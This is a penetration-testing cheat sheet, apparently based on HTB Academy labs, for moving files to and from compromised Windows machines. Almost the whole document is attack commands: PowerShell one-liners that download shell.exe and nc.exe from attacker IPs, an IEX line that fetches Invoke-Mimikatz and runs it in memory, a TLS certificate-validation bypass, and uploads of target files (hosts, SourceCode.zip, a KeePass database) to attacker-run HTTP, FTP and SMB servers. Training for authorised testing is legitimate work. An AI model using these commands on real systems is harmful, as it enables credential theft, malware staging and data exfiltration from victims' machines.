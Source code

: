 # Windows

## Download

### Copy & Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

#### Attacker > Target

```bash
kali@kali $ cat <file> |base64 -w 0;echo
```

```powershell
PS C:\> [IO.File]::WriteAllBytes("<fullpath&name>", [Convert]::FromBase64String("<base64 contents>"))
```

#### Target > Attacker

```powershell
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```bash
kali@kali $  echo <base64 contents> | base64 -d > hosts
```

> It is worth noting that the further steps are requried for file contents validation to ensure that the transferred file are moved witout any corruption.

```bash
kali@kali $ md5sum <file>
```

```powershell
PS C:\> Get-FileHash <file> -Algorithm md5
```

### PS File download

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFile('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')

PS C:\> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFileAsync('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')
```

### Fileless Method

Downloads the payload and excecute it directly in memory using **Invoke-Expression** cmdlet 'IEX'

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\> # OR pipeline input
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Invoke-WebRequest | iwr | curl | wget

Invoke-WebRequest has multiple aliases such as iwr, curl, and wget.

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Invoke-WebRequest http://10.10.14.220/shell.exe -OutFile shell.exe
</strong></code></pre>

### Errors in PowerShell

1. If the following error occurs, bypass using `-UserBasicParsing.`

![Internet Explorer first-launch prevents the download](https://academy.hackthebox.com/storage/modules/24/IE\_settings.png)

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

2. SSL/TLS secure channel error which could be bypassed using following command.

> Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

```powershell
PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Server

On the **attacker**'s machine, create a smbserver using `impacket` package.

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbsharepower
```

On the **target**, run:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> copy \\&#x3C;ip>\share\nc.exe
</strong><strong>C:\> #copy \\10.10.14.220\share\nc.exe
</strong></code></pre>

**If Windows block unauthenticated guest.**

On the **attacker**'s machine, create SMB server with **user** and **pass**

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user <user> -password <pass>
```

On the **target** machine, mount and copy the file.

<pre class="language-sh"><code class="lang-sh"><strong>C:\> net use n: \\&#x3C;ip>\&#x3C;share dir> /user:&#x3C;user> &#x3C;pass>
</strong>C:\> copy n:\nc.exe
</code></pre>

> Can try to copy the file directly using the `copy \\<ip>\share\nc.exe` command. but copying this command might result in error, try mount and copy instead.

### FTP Server

On the **attacker**'s machine, create a ftp server using Python3's `pyftpdlib` module.

```bash
kali@kali $ sudo python3 -m pyftpdlib --port 21
```

On the **target** machine, mount and copy the file.

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'ftp-file.txt')
```

## Upload

### PS uploads (Python uploadserver)

To upload file, we need a server.

On the **attacker**'s machine, create a upload server using Python3's `uploadserver` module.

```bash
kali@kali $ python3 -m uploadserver
```

On the **target** machine, run

```powershell
PS C:\> Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hostsp
```

### PS uploads (Web based)

**Attacker** creates a netcat listener.

```bash
kali@kali $ nc -lvnp 8000
```

**Target** sends file throught HTTP POST method.

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Attacker** decodes the stream back to file.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ echo &#x3C;base64> | base64 -d -w 0 > hosts
</strong></code></pre>

### SMB Server

On the **attacker**'s machine, create a upload server using Python3's `wsgidav` module.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
</strong></code></pre>

> impacket-smbserver would also work

```
sudo impacket-smbserver a -smb2support . -username a -password a
```

> if the username and password is specified then run `net use \10.10.14.4\a /user:a a` to mount the folder and then share the file.

On the **target** machine, run

<pre class="language-shell-session"><code class="lang-shell-session"><strong>C:\> dir \\192.168.49.128\DavWWWRoot
</strong>C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
</code></pre>

> Notice that it this method the `impacket-smbserver` was not used due to the port445 restrictions. Feel free to use it if there is no restriction.

### FTP Uploads

On the **attacker**'s machine, create a upload server using Python3's `pyftpdlib` module. but this time `--write` attribute is specified to allow client (target) to upload files.

```bash
kali@kali $ python3 -m pyftpdlib --port 21 --write
```

On the **target** machine, run

```
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

### evil-winrm

connect using evil-winrm normally

```
evil-winrm -i 10.129.202.222 -u johanna -p 1231234!
```

After getting a shell type

```
*Evil-WinRM* PS C:\Users\johanna\Documents> download Logins.kdbx
```









## Resources

* Most of the commands and contents are from **HTB academy lab!**

